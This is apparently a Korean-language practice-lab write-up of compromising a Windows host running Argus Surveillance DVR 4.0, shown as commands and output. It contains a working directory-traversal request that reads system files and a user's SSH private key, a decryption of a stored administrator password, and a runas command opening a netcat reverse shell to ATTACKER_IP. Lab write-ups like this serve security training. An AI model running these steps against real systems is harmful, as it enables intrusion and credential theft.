







---
layout: post
title:  "[PG][Windows] drv4"
date:   2026-11-08 12:16:00 +09:00
featured: /assets/images/oscp-pg/windows/drv4/image.png
categories: PG Windows
---nmap으로 포트 스캔을 수행.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.188.179 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.188.179
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-19 02:02 EDT
Nmap scan report for 192.168.188.179
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSIㅇㅡ
22/tcp    open  ssh           Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
| ssh-hostkey: 
|   3072 21:25:f0:53:b4:99:0f:34:de:2d:ca:bc:5d:fe:20:ce (RSA)
|_  384 e7:96:f3:6a:d8:92:07:5a:bf:37:06:86:0a:31:73:19 (ECDSA)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  tcpwrapped
8080/tcp  open  http-proxy
.
.
. 
```

8080포트 접근 시 웹 페이지에 접근이 가능하며, 계정 정보가 확인됨.


help > about 메뉴에서 버전 정보도 확인이 가능.


searchsploit을 이용해 PoC 확인.
```
└─$ searchsploit Argus Surveillance DVR 4.0
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path                   | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption                | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal                 | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation                | windows_x86/local/45312.c
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


PoC 코드를 사용하여 경로 변조를 통해 system.ini 파일 추출. 
```
└─$ curl "http://192.168.117.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```

웹에서 발견한 Administrator 와 Viewer의 ssh 개인키 파일 추출을 시도했지만, view만 확인이 가능했음.
```
└─$ curl "http://192.168.117.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
[SSH private key redacted from the public version.]
```

key.txt에 읽기 권한을 준다음 ssh -i옵션으로 접근 시도.
```
└─$ chmod 700 key.txt                 
└─$ ssh -i key.txt viewer@192.168.117.179
```

viewer계정으로 로그인 성공.


아까 searchsploit으로 발견한 50130.py 코드로 권한 상승이 가능함.


위 코드 주석 작성된 경로 및 파일을 확인하면 암호화된 비밀번호가 확인됨. 
```
C:\Users\viewer>cd "C:\ProgramData\PY_Software\Argus Surveillance DVR"             
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
.
.
.
[Users]                                                                              LocalUsersCount=2                                                                    UserID0=434499                                                                       LoginName0=Administrator
.
.
.                                                             
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
```
PoC 코드의 pass_hash 변수에 위에서 발견한 패스워드 암호값 저장.


코드 실행, 14WatchD0g 까지만 출력되었으며 마지막 글자는 특수문자로 추측.
```
└─$ python 50130.py
/home/kali/Desktop/pg/win/drv4/50130.py:30: SyntaxWarning: invalid escape sequence '\_'
  #   /  _  \_______  ____  __ __  ______ #

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

runas명령어를 통해 공격자 pc로 리버스쉘을 싱행하였으며, 비밀번호는 14WatchD0g$로 확인.
```
C:\Users\viewer>runas /user:administrator "C:\users\viewer\nc.exe -e cmd.exe ATTACKER_IP 7777"      
Enter the password for administrator:                                                                  
Attempting to start C:\users\viewer\nc.exe -e cmd.exe ATTACKER_IP 7777 as user "DVR4\administrator" 
...
```


